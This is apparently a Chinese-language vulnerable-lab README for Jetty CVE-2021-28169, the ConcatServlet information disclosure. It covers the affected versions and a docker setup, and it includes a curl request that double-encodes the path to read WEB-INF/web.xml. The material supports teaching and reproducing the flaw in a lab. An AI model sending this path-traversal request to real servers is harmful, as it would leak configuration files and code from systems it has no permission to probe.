


# Jetty 通用 Servlets 组件 ConcatServlet 信息泄露漏洞（CVE-2021-28169）

Eclipse Jetty 是一个开源的 servlet 容器，它为基于 Java 的 Web 容器提供运行环境，而 Jetty Servlets 是 Jetty 提供给开发者的一些通用组件。

在 9.4.40, 10.0.2, 11.0.2 版本前，Jetty Servlets 中的 `ConcatServlet`、`WelcomeFilter` 类存在多重解码问题，如果开发者主动使用了这两个类，攻击者可以利用其访问 WEB-INF 目录下的敏感文件，造成配置文件及代码泄露。

参考链接：

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-gwcr-j4wh-j3cq

## 漏洞环境

执行如下命令启动一个 Jetty 9.4.40 服务器：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可查看到一个 example 页面。该页面使用到了 `ConcatServlet` 来优化静态文件的加载：

```
<link rel="stylesheet" href="/static?/css/base.css&/css/app.css">
```

## 漏洞利用

正常通过 `/static?/WEB-INF/web.xml` 无法访问到敏感文件 web.xml：



对字母 `W` 进行双 URL 编码，即可绕过限制访问 web.xml：

```
curl -v 'http://your-ip:8080/static?/%2557EB-INF/web.xml'
```


